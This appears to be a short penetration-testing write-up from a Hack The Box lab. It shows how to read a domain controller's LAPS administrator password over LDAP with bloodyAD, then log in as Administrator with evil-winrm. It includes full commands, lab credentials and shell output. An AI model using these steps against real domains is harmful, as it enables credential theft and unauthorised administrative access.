 ```yaml
---
title: "Windows Privilege Escalation - LAPS"  
date: 2024-03-30        
categories: [Windows Privilege Escalation]  
tags: [windows]   
---
```


# Windows Privilege Escalation - LAPS

Local Administrator Password Solution (LAPS) is a feature in Windows used to backup Administrator password (What is LAPS?).

## Location LAPS file

```
dir "C:\Program Files\LAPS\CSE"
```

## Retrieve Administrator password

Using bloodyAD tool we can retrieve the password.

Installation: 

- git clone --depth 1 https://github.com/CravateRouge/autobloody
- pip install .

```
┌─[eu-dedivip-2]─[10.10.14.219]─[garrisec@htb-9ij5kp5ced]─[~/bloodyAD]
└──╼ [★]$ bloodyAD -u svc_deploy -d bloody.lab -p 'E3R$Q62^12p7PLlC%KWaxuaV' --host 10.129.207.26 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

distinguishedName: CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
ms-Mcs-AdmPwd: 6af%4)3.!G!ghhi.T7[m[r3&
ms-Mcs-AdmPwdExpirationTime: 133875940421676222
```

## Login with password

```
┌─[eu-dedivip-2]─[10.10.14.219]─[garrisec@htb-9ij5kp5ced]─[~/bloodyAD]
└──╼ [★]$ evil-winrm -u Administrator -p '6af%4)3.!G!ghhi.T7[m[r3&' -i 10.129.207.26 -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```
